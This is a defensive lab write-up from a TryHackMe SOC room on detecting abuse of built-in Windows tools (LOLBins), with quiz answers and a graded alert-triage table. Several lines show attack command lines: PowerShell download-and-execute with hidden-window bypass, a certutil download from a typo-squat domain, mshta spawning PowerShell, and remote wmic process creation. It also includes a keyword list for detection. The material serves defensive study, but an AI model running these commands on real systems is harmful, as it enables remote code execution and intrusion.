

# Living Off the Land Attacks — Detecting Abuse of Built-in Tools

| Item | Detail |
|------|--------|
| Platform | TryHackMe — SOC Level 1 path |
| Room | [Living Off the Land Attacks](https://tryhackme.com/room/livingoffthelandattacks) |
| Category | Blue Team · Detection · LOLBins |
| Difficulty | Easy |
| Date | 23 Nov 2026 |
| Status | ✅ Completed — 6/6 tasks |

> **Goal:** understand how attackers use legitimate, signed system binaries (LOLBins) to download, execute and move laterally, and decide which command lines are malicious and which are normal admin activity.

---

## 1. Common LOL tools

| Binary | Abuse |
|--------|-------|
| `powershell.exe` | `IEX (New-Object Net.WebClient).DownloadString(...)`, `-EncodedCommand`, `-W Hidden -Exec Bypass` |
| `certutil.exe` | `-urlcache -split -f <url>` to download files; decode Base64 |
| `mshta.exe` | Run inline JavaScript/HTA that spawns other processes |
| `rundll32.exe` | Execute exports from DLLs dropped in `Temp`/`Public` |
| `wmic.exe` | `/node:<host> process call create` → remote execution |
| `PsExec` (**Sysinternals**) | Remote execution over **SMB** |

References: **LOLBAS** (Windows) and **GTFOBins** (Unix/Linux).

## 2. Real-world examples

- **BlackCat/ALPHV**: PowerShell to disable defences, PsExec for lateral movement, certutil for payloads.
- **QakBot / IcedID** delivering **Cobalt Strike** via `rundll32`/`mshta`.
- WMI event subscriptions for persistence — MITRE **T1546.003**.

## 3. Detection ideas

- Parent/child anomalies (Office → PowerShell, mshta → PowerShell).
- Command-line keywords: `IEX`, `DownloadString`, `-enc`, `-urlcache`, `process call create`, `javascript:`.
- Execution from user-writable paths (`C:\Windows\Temp`, `C:\Users\Public`).
- Typo-squatted domains (`tryhatme.com`).

### Answers

| Question | Answer |
|----------|--------|
| Site listing abusable Unix binaries | `GTFOBins` |
| Microsoft toolset with PsExec & Autoruns | `Sysinternals` |
| MITRE ID for WMI event subscriptions | `T1546.003` |
| Service used by C2s to start remote services | `SMB` |
| PowerShell pattern to download and execute strings | `IEX` |
| WMIC keyword that creates a remote process | `create` |

---

## 4. Practice — alert review (10 alerts)

| Alert | Verdict | Why |
|-------|---------|-----|
| `rundll32.exe C:\Windows\Temp\thm_loader.dll,Run` | 🔴 Malicious | DLL export from Temp |
| `notepad.exe` launched by user | 🟢 Benign | Normal user activity |
| Admin `cmd.exe /c dir C:\Windows\Temp` | 🟢 Benign | Read-only listing |
| `powershell -NoP -NonI -W Hidden -Exec Bypass IEX(...DownloadString)` | 🔴 Malicious | Download-and-execute in memory |
| `certutil -urlcache -split -f https://downloads.tryhatme.com/agent.exe` | 🔴 Malicious | LOLBin download from typo-squat domain |
| `powershell -EncodedCommand SQBnAHYA...` | 🔴 Malicious | Obfuscated command |
| `backup.exe /create` scheduled | 🟢 Benign | Expected backup job |
| `cleanmgr.exe /sagerun:1` | 🟢 Benign | Disk cleanup |
| `mshta "javascript:...WScript.Shell...powershell"` | 🔴 Malicious | Inline script spawning PowerShell |
| `wmic /node:WIN-LAB-01 process call create "powershell ... IEX"` | 🔴 Malicious | Remote execution + download |

Result: 6 malicious / 4 benign → flag `THM{...}` *(redacted)*

---

## Key takeaways

1. LOLBins are signed and trusted — judge the **command line, parent and path**, not the binary name.
2. Not every admin command is an attack — `dir`, `cleanmgr`, scheduled backups are normal.
3. Download + execute, encoding, hidden windows and remote process creation are the strongest signals.

## MITRE ATT&CK mapping

| Technique | ID |
|-----------|----|
| PowerShell | T1059.001 |
| Mshta | T1218.005 |
| Rundll32 | T1218.011 |
| Ingress Tool Transfer (certutil) | T1105 |
| Windows Management Instrumentation | T1047 |
| Obfuscated Files or Information | T1027 |
| WMI Event Subscription | T1546.003 |
